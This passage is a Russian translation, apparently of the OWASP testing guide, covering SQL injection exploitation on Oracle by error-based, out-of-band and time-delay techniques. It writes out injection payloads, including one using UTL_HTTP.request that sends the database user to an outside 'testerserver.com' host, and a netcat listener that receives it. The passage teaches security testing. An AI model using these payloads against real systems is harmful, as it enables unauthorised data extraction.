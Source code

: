 Рассмотрим следующий запрос SQL:

`SELECT * FROM products WHERE id_product=$id_product`

Рассмотрим также запрос к сценарию, который выполняет запрос выше:

`http://www.example.com/product.php?id=10`

Вредоносный запрос будет (например,. Оракул 10г) :

`http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

В этом примере тестер объединяет значение 10 с результатом функции `UTL_INADDR.GET_HOST_NAME`. Эта функция Oracle попытается вернуть имя хоста переданного ему параметра, который является другим запросом, именем пользователя. Когда база данных ищет имя хоста с именем базы данных пользователя, она не сможет и вернет сообщение об ошибке, например:

`ORA-292257: host SCOTT unknown`

Затем тестер может манипулировать параметром, переданным в функцию GET_HOST_NAME (), и результат будет отображаться в сообщении об ошибке.

#### Из техники эксплуатации группы

Эта техника очень полезна, когда тестер находит [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) ситуация, в которой ничего не известно о результатах операции. Техника состоит из использования функций СУБД для выполнения внеполосного соединения и доставки результатов введенного запроса как части запроса на сервер тестера. Как и методы, основанные на ошибках, каждая СУБД имеет свои функции. Проверьте для конкретного раздела СУБД.

Рассмотрим следующий запрос SQL:

`SELECT * FROM products WHERE id_product=$id_product`

Рассмотрим также запрос к сценарию, который выполняет запрос выше:

`http://www.example.com/product.php?id=10`

Вредоносный запрос будет:

`http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

В этом примере тестер объединяет значение 10 с результатом функции `UTL_HTTP.request`. Эта функция Oracle попытается подключиться к `testerserver` и сделает запрос HTTP GET, содержащий возврат из запроса `SELECT user FROM DUAL`. Тестер может настроить веб-сервер (например,. Apache) или используйте инструмент Netcat :

```bash
/home/tester/nc –nLp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

#### Техника эксплуатации с задержкой во времени

Техника эксплуатации с задержкой по времени очень полезна, когда тестер находит [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) ситуация, в которой ничего не известно о результатах операции. Этот метод заключается в отправке введенного запроса, и в случае, если условное значение истинно, тестер может отслеживать время, необходимое серверу для ответа. Если есть задержка, тестер может предположить, что результат условного запроса является истинным. Этот метод эксплуатации может отличаться от СУБД к СУБД (см. Конкретный раздел СУБД).
